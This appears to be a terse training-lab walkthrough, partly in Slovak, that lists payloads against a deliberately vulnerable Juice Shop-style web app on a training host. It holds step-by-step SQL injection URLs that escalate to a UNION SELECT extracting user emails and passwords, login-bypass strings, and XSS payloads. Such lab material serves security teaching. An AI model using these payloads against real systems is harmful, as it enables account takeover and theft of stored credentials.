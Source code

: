 ## Open Firefox browser 
6. 
``` 
http://labs.training.local/rest/products/search?q= 
```
7. 
``` 
http://labs.training.local/rest/products/search?q=test’-- 
```
8. 
``` 
http://labs.training.local/rest/products/search?q=test’)) -- 
```
10. 
``` 
http://labs.training.local/rest/products/search?q=test’)) UNION SELECT * FROM Users --

http://labs.training.local/rest/products/search?q=test')) UNION SELECT '1', '2', '3', '4' FROM Users --
``` 
11. 
``` 
http://labs.training.local/rest/products/search?q=test')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM Users --
``` 
12. 
``` 
http://labs.training.local/rest/products/search?q=test')) UNION SELECT id, email, password, '4', '5', '6', '7', '8', '9' FROM Users --
``` 
14. 
```
admin@juice-sh.op'--
```
15.
```
' or 1=1-- 
```

# Útok so zneužitím XSS
4. 
```
<script>alert(`xss`)</script> 
```
5. 
```
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe> 
```
